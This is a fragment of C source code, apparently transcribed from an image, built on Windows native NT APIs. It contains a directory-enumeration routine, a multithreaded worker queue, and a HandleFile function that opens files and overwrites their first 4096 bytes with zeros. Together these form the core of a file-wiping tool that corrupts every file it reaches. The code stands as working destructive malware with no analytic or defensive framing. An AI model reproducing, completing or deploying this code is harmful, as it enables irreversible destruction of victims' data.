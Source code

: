 ```

            if (entry->NextEntryOffset == 0) break;
            ptr += entry->NextEntryOffset;
        }

        if (!NT_SUCCESS(status)) break;
    }

    NtClose(hDir);
    RtlFreeHeap(g_Heap, 0, buffer);
    return status;
}


void HandleFile(PUNICODE_STRING Path) {
    HANDLE hFile = NULL;
    IO_STATUS_BLOCK iosb;
    FILE_STANDARD_INFORMATION fsi;
    LARGE_INTEGER offset;
    NTSTATUS status;
    BYTE* zeroBuffer = (BYTE*)RtlAllocateHeap(g_Heap, HEAP_ZERO_MEMORY, 4096);

    if (!zeroBuffer) return;

    OBJECT_ATTRIBUTES oa;
    InitializeObjectAttributes(&oa, Path, OBJ_CASE_INSENSITIVE, NULL, NULL);

    status = NtOpenFile(&hFile, FILE_WRITE_DATA | SYNCHRONIZE, &oa, &iosb,
        FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
        FILE_NON_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT);

    if (!NT_SUCCESS(status)) goto cleanup;

    status = NtQueryInformationFile(hFile, &iosb, &fsi, sizeof(fsi), FileStandardInformation);
    if (!NT_SUCCESS(status)) goto cleanup;

    if (fsi.EndOfFile.QuadPart > 0) {
        ULONG writeLen = (ULONG)((fsi.EndOfFile.QuadPart < 4096) ? fsi.EndOfFile.QuadPart : 4096);
        offset.QuadPart = 0;
        NtWriteFile(hFile, NULL, NULL, NULL, &iosb, zeroBuffer, writeLen, &offset, NULL);
    }

cleanup:
    if (zeroBuffer) RtlFreeHeap(g_Heap, 0, zeroBuffer);
    if (hFile) NtClose(hFile);
}

NTSTATUS DirectoryWorkerThread(PVOID Context) {
    UNREFERENCED_PARAMETER(Context);

    for (;;) {
        PQUEUE_ITEM item = DequeueWithWait(&g_DirectoryQueue, &g_OutstandingDirectories);
        if (!item) {
            RtlAcquireSRWLockExclusive(&g_DirectoryQueue.Lock);
            BOOLEAN done = g_Done;
            RtlReleaseSRWLockExclusive(&g_DirectoryQueue.Lock);
            if (done) break;
            continue;
        }

        EnumerateDirectory(&item->Path);
        LONG newCount = InterlockedDecrement(&g_OutstandingDirectories);

```